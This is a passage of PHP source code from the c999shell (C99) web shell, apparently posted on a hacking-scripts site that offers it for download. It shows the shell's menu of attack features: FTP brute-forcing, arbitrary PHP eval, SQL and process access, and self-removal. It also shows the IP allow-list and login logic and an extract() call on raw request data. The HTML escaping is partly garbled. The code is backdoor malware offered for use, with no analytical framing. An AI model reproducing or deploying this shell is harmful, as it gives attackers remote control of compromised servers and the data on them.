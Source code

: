  array("&lt;img alt="\&quot;Back\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=back\&quot;" width="\&quot;20\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;","#\" onclick=\"history.back(1)"),
 array("&lt;img alt="\&quot;Forward\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=forward\&quot;" width="\&quot;20\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;","#\" onclick=\"history.go(1)"),
 array("&lt;img alt="\&quot;UPDIR\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=up\&quot;" width="\&quot;20\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;",$surl."act=ls&d=%upd&sort=%sort"),
 array("&lt;img alt="\&quot;Refresh\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=refresh\&quot;" width="\&quot;17\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;",""),
 array("&lt;img alt="\&quot;Search\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=search\&quot;" width="\&quot;20\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;",$surl."act=search&d=%d"),
 array("&lt;img alt="\&quot;Buffer\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=buffer\&quot;" width="\&quot;20\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;",$surl."act=fsbuff&d=%d"),
 array("&lt;b&gt;Encoder&lt;/b&gt;",$surl."act=encoder&d=%d"),
 array("&lt;b&gt;Tools&lt;/b&gt;",$surl."act=tools&d=%d"),
 array("&lt;b&gt;Proc.&lt;/b&gt;",$surl."act=processes&d=%d"),
 array("&lt;b&gt;FTP brute&lt;/b&gt;",$surl."act=ftpquickbrute&d=%d"),
 array("&lt;b&gt;Sec.&lt;/b&gt;",$surl."act=security&d=%d"),
 array("&lt;b&gt;SQL&lt;/b&gt;",$surl."act=sql&d=%d"),
 array("&lt;b&gt;PHP-code&lt;/b&gt;",$surl."act=eval&d=%d"),
 array("&lt;b&gt;Update&lt;/b&gt;",$surl."act=update&d=%d"),
 array("&lt;b&gt;Feedback&lt;/b&gt;",$surl."act=feedback&d=%d"),
 array("&lt;b&gt;Self remove&lt;/b&gt;",$surl."act=selfremove"),
 array("&lt;b&gt;Logout&lt;/b&gt;","#\" onclick=\"if (confirm('Are you sure?')) window.close()")
);
//Highlight-code colors
$highlight_background = "#c0c0c0";
$highlight_bg = "#FFFFFF";
$highlight_comment = "#6A6A6A";
$highlight_default = "#0000BB";
$highlight_html = "#1300FF";
$highlight_keyword = "#007700";
$highlight_string = "#000000";
@$f = $_REQUEST["f"];
@extract($_REQUEST["c999shcook"]);
//END CONFIGURATION
// \/Next code isn't for editing\/
@set_time_limit(0);
$tmp = array();
foreach($host_allow as $k=&gt;$v) {$tmp[] = str_replace("\\*",".*",preg_quote($v));}
$s = "!^(".implode("|",$tmp).")$!i";
if (!preg_match($s,getenv("REMOTE_ADDR")) and !preg_match($s,gethostbyaddr(getenv("REMOTE_ADDR")))) {exit("&lt;a href="\&quot;http://ccteam.ru/releases/cc999shell\&quot;"&gt;c999shell&lt;/a&gt;: Access Denied - your host (".getenv("REMOTE_ADDR").") not allow");}
if (!empty($login))
{
 if (empty($md5_pass)) {$md5_pass = md5($pass);}
 if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass))
 {
  if (empty($login_txt)) {$login_txt = strip_tags(ereg_replace(" |
"," ",$donated_html));}
  header("WWW-Authenticate: Basic realm=\"c999shell ".$shver.": ".$login_txt."\"");
  header("HTTP/1.0 401 Unauthorized");
  exit($accessdeniedmess);
 }
}
if ($act != "img")
{
$lastdir = realpath(".");
chdir($curdir);

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png